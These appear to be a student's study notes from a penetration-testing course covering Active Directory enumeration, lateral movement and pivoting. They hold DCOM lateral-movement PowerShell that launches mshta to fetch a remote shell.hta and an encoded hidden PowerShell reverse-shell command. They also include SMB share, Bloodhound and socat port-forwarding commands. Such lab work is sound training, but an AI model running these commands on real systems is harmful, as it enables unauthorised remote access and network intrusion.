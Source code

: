 # Incomplete Sections

| Chapter                | Section | Lab Exercise |
| ---------------------- | ------- | ------------ |
| SQL Injection          | 10.3.2  | 4, 6, 7      |
| Client Side Attacks    | 11.2.3  | 2            |
| Client Side Attacks    | 11.3.1  | 1, 3         |
| AD Enumeration         | 21.4.2  | Capstone     |
| Attacking AD Auth      | 22.2.4  | 1            |
| Lateral Movement in AD | 23.1.1  | 2            |
| Lateral Movement in AD | 23.1.2  | 2            |
| Lateral Movement in AD | 23.1.3  |              |

---

# Queries
1. **Section - 21.3.3** - How are SPNs useful while attacking?
2. Not able to run CrackMapExec due to lack of a VENV in python.
3. If i’m logged in as dave. Then if I find that stephanie also has a session on the same machine, what does that mean? What can i do? This can be done with `.\PSLoggedon.exe //files04` command.

```PowerShell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.72"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c mshta.exe http://192.168.XXX.XXX/shell.hta","7")
```

```PowerShell
LINE1 $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.72"))
LINE2 $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c mshta.exe http://192.168.119.147/shell.hta","7")

LINE1 $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.73")) LINE2 $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A....","7")
```


[Ligolo-Ng - References](https://discord.com/channels/780824470113615893/1087927333731713094/1194045054671659018)
[CME Help](https://medium.com/r3d-buck3t/crackmapexec-in-action-enumerating-windows-networks-part-2-c61dfb7cd88e)

```text
net use \\computername\sharename
net view \\computername\sharename
dir \\computername\sharename
copy \\computername\sharename\file.txt file.txt
type \\computername\sharename\file.txt 
```

4. If we get a reverse shell, and it is running WSL, it would seem that we have ented a Linux System, however, in reality it would be a Windows System. Do commands like `uname -all` or `whoami` give you better clarification on wether or not it is a Winows System in reality?

---

# Command Dump Windows

```bash
impacket-smbserver share_name ./path/to/share -smb2support -user 'usr' -password 'pswd'
net use m: \\$KALI_IP\share_name # m: is just a random drive letter.
```

# Bloodhound Custom Queries
1. Get a list of all computers on the domain > `MATCH (m:Computer) RETURN m`
2. Get all users in the domain > `MATCH (m:User) RETURN m34`
3. Get all active sessions > `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`

# Port Forwarding Process
1. Creating a forward on the Dual Homed Machine with SOCAT:
```bash
# start a socat process on the dual_homed machine
# SOCAT WORKING
# socat "LISTEN" and then "FORWARD"
# socat TCP-LISTEN:$PORT,fork -- opens a port on the DH machine.
# fork -- creates a new process.
# TCP:$INTERNAL_TARGET_TP:$PORT -- this port should already be open.
# Ports 0-1024 require privs, do not use.
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
![[./images/Pasted image 20240111165811.png]]

2. Interacting with a port on one of the internal machines (PostgreSQL):
```bash
# now just interact with the internal IP just like normal.
psql -h $DH_IP -p $INTERNAL_PORT -U $USR
# $DH_IP -- send all traffic to the dual homed machine.
# DH Machine will forward it to the internal machine (via socat),
```
